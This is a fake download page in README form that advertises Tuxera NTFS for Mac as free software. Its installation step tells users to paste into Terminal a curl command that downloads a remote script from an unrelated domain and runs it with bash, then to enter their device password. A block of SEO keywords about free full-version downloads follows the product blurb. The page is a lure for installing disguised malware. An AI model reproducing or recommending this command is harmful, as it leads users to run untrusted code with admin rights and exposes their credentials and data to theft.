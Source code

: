 # Tuxera NTFS for Mac Download

![Tuxera NTFS Icon](https://s3.amazonaws.com/s3.roaringapps.com/assets/icons/1447090756923-TNTFS.png)  

---

# ⬇️ Download Tuxera NTFS for Mac

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ✨ What is Tuxera NTFS for Mac?

**Tuxera NTFS for Mac** is a high-performance commercial driver that enables full read and write compatibility with Microsoft NTFS file systems on macOS. Native macOS systems only provide read-only access to NTFS drives, which can be limiting for users who frequently exchange files with Windows systems. Tuxera NTFS eliminates this barrier by unlocking full access to NTFS volumes, allowing you to edit, copy, move, and delete files with ease.

Tuxera’s driver integrates seamlessly with macOS, offering a native experience in Finder and Disk Utility. It supports fast data transfer speeds, sustained large file operations, and disk verification features that ensure data integrity and prevent corruption. With Tuxera Disk Manager, included in the package, you can format, repair, and manage NTFS partitions from a user-friendly interface.

Optimized for Apple Silicon (M1/M2/M3) and macOS versions including Monterey, Ventura, and Sonoma, Tuxera NTFS ensures compatibility across current Mac hardware. Whether you're transferring media libraries, performing backups, or sharing data between macOS and Windows, Tuxera delivers stable, reliable NTFS support without compromising your workflow.

Many professionals and everyday users rely on Tuxera NTFS when dual-booting Windows via Boot Camp or using external drives formatted for Windows. It’s especially useful for creatives, IT admins, and business users working in cross-platform environments. With minimal setup and automatic mounting of NTFS disks, it provides a hassle-free way to bridge the gap between macOS and Windows file systems.

---

## 💡 Features

- 🔄 **Full Read & Write Access** – Edit, delete, move and copy files on NTFS drives  
- 🚀 **High-Speed Transfers** – Optimized for fast and stable performance  
- 🧰 **Tuxera Disk Manager** – Format, verify, and repair NTFS partitions  
- 🖥 **macOS Integration** – Works directly in Finder and Disk Utility  
- 💻 **Apple Silicon Support** – Native M1/M2/M3 compatibility  
- ⚙️ **Secure & Stable** – Data integrity features to prevent corruption  
- 🌐 **Cross-Platform Workflow** – Ideal for dual-boot or shared environments  

---

![Tuxera NTFS Screenshot](https://www.keysoff.com/media/wysiwyg/Tuxera_NTFS_for_Mac.jpg)

---

## 💻 System Requirements

- **macOS:** 10.14 Mojave or newer (incl. Ventura, Sonoma)  
- **Chipset:** Intel or Apple Silicon (M1/M2/M3)  
- **Disk:** At least 200MB free  
- **Additional:** Requires admin privileges for install

---

## 🔑 Keywords

`tuxera ntfs for mac`, `tuxera ntfs`, `tuxera`, `mac tuxera ntfs`, `ntfs tuxera for mac`,  
`tuxera disk manager`, `tuxera for mac`, `microsoft ntfs by tuxera`, `download tuxera`,  
`download tuxera ntfs`, `download tuxera ntfs for mac`, `free tuxera ntfs for mac`,  
`microsoft ntfs for mac by tuxera`, `tuxera ntfs for mac download`, `tuxera ntfs 2022`,  
`tuxera disk manager for mac`, `tuxera ntfs ventura`, `download tuxera for mac`,  
`download tuxera for mac free`, `download tuxera ntfs for mac full`,  
`free download tuxera ntfs for mac full version`, `install tuxera ntfs for mac`,  
`tuxera download free mac`, `tuxera download for mac`, `tuxera disk manager mac download`,  
`tuxera download mac`, `tuxera for mac free`, `tuxera for mac download`,  
`tuxera for mac free download`, `tuxera ntfs for mac free download`,  
`tuxera ntfs for mac free download full version`
